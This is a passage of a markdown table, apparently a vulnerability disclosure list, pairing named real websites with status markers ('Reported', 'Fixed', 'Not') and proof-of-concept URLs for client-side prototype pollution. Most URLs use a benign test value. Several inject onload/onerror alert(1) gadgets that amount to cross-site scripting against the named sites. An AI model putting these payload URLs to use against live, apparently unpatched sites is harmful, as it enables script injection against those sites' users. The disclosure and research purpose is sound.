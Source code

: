 |airbestpractices.com|748918|URL|, URL-M|Reported|`https://airbestpractices.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|airestech.com|914442|URL search|-|Reported|`https://airestech.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|airmeet.com|36565|URL search|, Cookie-M, URL-M|Reported|`https://www.airmeet.com/hub/case-study/edbrand-hosts-college-fair-with-airmeet/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|ajc.com|2050|URL search|-|Not|`https://ajc.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|akak7.ru|922066|URL search|, Cookie-M|Reported|`https://akak7.ru/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|akberlin.de|801237|URL|-|Reported|`https://akberlin.de/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|akton.com.mk|857948|URL search|-|Reported|`https://www.akton.net/index.php/?__proto__[123]=testv&__proto__.123=testv&constructor[prototype][123]=testv`
|albumstar.ru|486489|URL search|, Cookie-M|Reported|`https://albumstar.ru/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|alertaemprego.pt|676443|URL search|, Cookie-M|Reported|`https://alertaemprego.pt/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|alexbirkett.com|665305|URL search|, Cookie-M|Reported|`https://www.alexbirkett.com/email-marketing-software/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|alexclare.com|668111|URL search|-|Reported|`https://alexclare.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|alhayes.ly|658763|URL|-|Reported|`https://alhayes.ly/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|alisaznaet.ru|753076|URL search|-|Reported|`https://alisaznaet.ru/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|allbirds.jp|236566|URL search|, URL-M|Reported|`https://allbirds.jp/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|allcarz.ru|211659|URL search|, Cookie-M|Not|`https://allcarz.ru/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|allomart.ru|400498|URL search|, Cookie-M|Reported|`https://allomart.ru/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|alltournative.com|811828|URL search|, URL-M|Fixed|`https://alltournative.com/pages/cancellation-policy/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|alltricks.com|424729|URL search|-|Reported|`https://www.alltricks.com/delivery/?__proto__[123]=testv&__proto__.123=testv&constructor[prototype][123]=testv`
|alltricks.es|533320|URL search|-|Reported|`https://alltricks.es/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|alltricks.fr|130776|URL search|-|Reported|`https://www.alltricks.fr/C-40470-outillage-general/?__proto__[123]=testv&__proto__.123=testv&constructor[prototype][123]=testv`
|allvideoslots.com|508342|URL search|-|Fixed|`https://allvideoslots.com/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|ally.io|16482|URL search|-|Reported|`http://ally.io/resources/the-okr-maturity-model/?__proto__[123]=testv&__proto__.123=testv&constructor[prototype][123]=testv`
|aloware.com|248333|URL search|, Cookie-M, URL-M|Reported|`https://aloware.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|alpindustria.ru|176345|URL search|, Cookie-M|Reported|`https://alpindustria.ru/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|alpineelements.co.uk|461942|URL search|, URL-M|Reported|`https://alpineelements.co.uk/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|alternate.be|251521|URL search|-|Fixed|`https://www.alternate.be/Pc-Builder/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)#!/components`
|alternate.nl|108031|URL search|-|Fixed|`https://www.alternate.nl/html/product/1672784/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|amac.nl|333113|URL search|-|Reported|`https://amac.nl/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|amateri.com|91130|URL search|-|Reported|`https://www.amateri.com/en/dating/5558634/jsi-18-21-a-pro-pasivni-roli/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|americanfarriers.com|811202|URL|, URL-M|Reported|`https://americanfarriers.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|americanlaser.com|921018|URL search|-|Reported|`https://americanlaser.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|americansalon.com|634956|URL search|-|Reported|`https://americansalon.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|americanspice.com|347782|URL search|, URL-M|Reported|`https://americanspice.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|americantower.com|148631|URL|, URL-M|Reported|`https://americantower.com/index.html/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|amfam.com|15815|URL search|-|Reported|`https://amfam.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|amoe.org.mx|847182|URL|-|Reported|`https://amoe.org.mx/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|amplex.net|544273|URL|-|Reported|`https://amplex.net/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`